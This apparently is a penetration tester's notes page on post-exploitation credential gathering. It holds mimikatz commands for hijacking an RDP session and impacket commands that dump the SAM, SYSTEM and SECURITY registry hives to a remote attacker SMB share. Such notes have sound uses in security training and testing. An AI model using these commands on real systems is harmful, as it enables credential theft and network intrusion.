

repository: benjugat/hackingnotes · page: post-exploitation/get-credentials/index.html · generator: mkdocs

---
title: Gathering Credentials
---

After compromising a target is important to recollect the maximum credentials to spray them on the network.

## Looking for Interesting Files

If the target have a web application that use a database try to find the `config.php` file in order to obtain the database connection.

Look what type of applications are installed and look for config files in order to find new pair of creds.

## **Hijacking RDP Session**

To hijack a RDP session we need mimikatz.

```
.\mimikatz.exe
privilege::debug
ts::sessions
ts::mstsc
token::elevate
ts::remote /id:3
```

## SAM and LSA Secrets (Windows)

In Windows environments, passwords are stored hashed in resgistriy hives.

| Hive     | Details                                            | Format                                                                                         |
|----------|----------------------------------------------------|------------------------------------------------------------------------------------------------|
| SAM      | Stores locally cached credentials                  | LM or NT hashes                                                                                |
| SECURITY | Stores domain cached credentials (LSA secrets)     | Plaintext, LM or NT hashes,Kerberos Keys (DES, AES), Domain Cached Credential (DCC1 and DCC2)  |
| SYSTEM   | Contain enough info to decrypt SAM and LSA secrets | N/A                                                                                            |

You can easily dump the SAM , SECURITY and SYSTEM registries hives with different tools, from linux and windows:


### Impacket

With `impacket-reg.py` can dump the SAM and LSA secrets remotely.

```
impacket-smbserver share . -smb2support

impacket-reg DOMAIN/user:pass@IP save -keyName 'HKLM\SAM' -o \\SMBIP\share
impacket-reg DOMAIN/user:pass@IP save -keyName 'HKLM\SYSTEM' -o \\SMBIP\share
impacket-reg DOMAIN/user:pass@IP save -keyName 'HKLM\SECURITY' -o \\SMBIP\share
```
